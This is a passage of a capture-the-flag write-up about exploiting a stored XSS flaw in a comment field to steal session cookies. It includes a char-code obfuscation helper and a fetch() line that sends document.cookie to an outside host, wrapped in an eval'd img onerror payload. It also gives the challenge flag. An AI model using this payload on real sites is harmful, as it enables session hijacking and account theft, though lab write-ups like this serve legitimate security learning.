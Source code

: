 Back to the `requests` page. We need to figure out how to send data correctly to another place. Let's set up a RequestBin to handle requests, and try to forward our requests to there. The RequestBin URL is basically acting as a stand-in for the woodchewers URL--I don't have control of the woodchewers endpoint, but I do have control of the RequestBin. This basically enables me to debug and test various HTTP methods through XSS.

To do this, I first write a very quick Python script to convert any command (or series of commands) I want to input into its char code equivalent:

```python
def string_to_ascii_decimal(input_string):
    ascii_values = [ord(char) for char in input_string]
    return ','.join(map(str, ascii_values))

input_string = 'some arbitrary command, change this to whatever you want'
ascii_representation = string_to_ascii_decimal(input_string)
print(ascii_representation)
```
We also test the `eval` function on the comment. The `eval` function is very powerful in that it will literally execute any arbitrary JavaScript you put in it. In other words, if we can get `eval` to work, we can execute anything we want.

Using `eval` to create the XSS alert succeeds, so we know that we can use the `eval` function to run any arbitrary JavaScript.

From this point on, it's just a matter of testing and putting the right puzzle pieces together. I'll go more in detail on this whole process in the [Rabbit Holes](#rabbit-holes) section. I basically sent a bunch of requests to Requestbin, trying to figure out exactly what to send to woodchewers. The final command JavaScript command I ended up sending was really, really simple:

`fetch("http://wood-chewers.trees?session=" + document.cookie)`

...and, after converting to char codes, resulted in this comment input:

```javascript
<img src="x" onerror="eval(String.fromCharCode(102,101,116,99,104,40,34,104,116,116,112,58,47,47,119,111,111,100,45,99,104,101,119,101,114,115,46,116,114,101,101,115,63,115,101,115,115,105,111,110,61,34,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))"></img>
```

Once we submit this comment, we get the flag:

`flag{c00k13_fr0m_the_c00k13_j@r}`

## Rabbit Holes
pain.

No, seriously, I overthought this so much. Well. I overthought O3 more, but O2 was also a victim of my chronic overthinking.

When I tell you I spent HOURS sending random requests to RequestBin, trying to figure out if I had to hijack their session cookies, trying to see if the /user endpoint actually meant anything...

### The /user Endpoint
So this site has a suburl at /user. Going to that link while not logged in will redirect you to the login page. Going to that page while logged in will return a server 502 error. THIS PAGE.
